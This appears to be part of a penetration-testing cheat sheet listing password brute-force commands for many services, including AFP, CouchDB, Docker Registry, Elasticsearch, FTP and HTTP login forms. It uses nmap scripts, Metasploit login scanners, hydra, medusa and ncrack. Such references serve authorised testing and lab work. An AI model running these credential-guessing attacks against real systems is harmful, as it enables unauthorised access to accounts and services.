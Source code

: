     ​https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm​

Services

Ordered alphabetically by service name.
AFP

nmap -p 548 --script afp-brute <IP>
msf> use auxiliary/scanner/afp/afp_login
msf> set BLANK_PASSWORDS true
msf> set USER_AS_PASS true
msf> set PASS_FILE <PATH_PASSWDS>
msf> set USER_FILE <PATH_USERS>
msf> run

AJP

nmap --script ajp-brute -p 8009 <IP>

Cassandra

nmap --script cassandra-brute -p 9160 <IP>

CouchDB

msf> use auxiliary/scanner/couchdb/couchdb_login
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst localhost -s 5984 http-get /

Docker Registry

hydra -L /usr/share/brutex/wordlists/simple-users.txt  -P /usr/share/brutex/wordlists/password.lst 10.10.10.10 -s 5000 https-get /v2/

Elasticsearch

hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst localhost -s 9200 http-get /

FTP

hydra -l root -P passwords.txt [-t 32] <IP> ftp
ncrack -p 21 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ftp

HTTP Generic Brute
​WFuzz​
HTTP Basic Auth

hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/
# Use https-get mode for httpS
medusa -h <IP> -u <username> -P  <passwords.txt> -M  http -m DIR:/path/to/auth -T 10

HTTP - Post Form

hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb  http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
# Use https-post-form mode for httpS
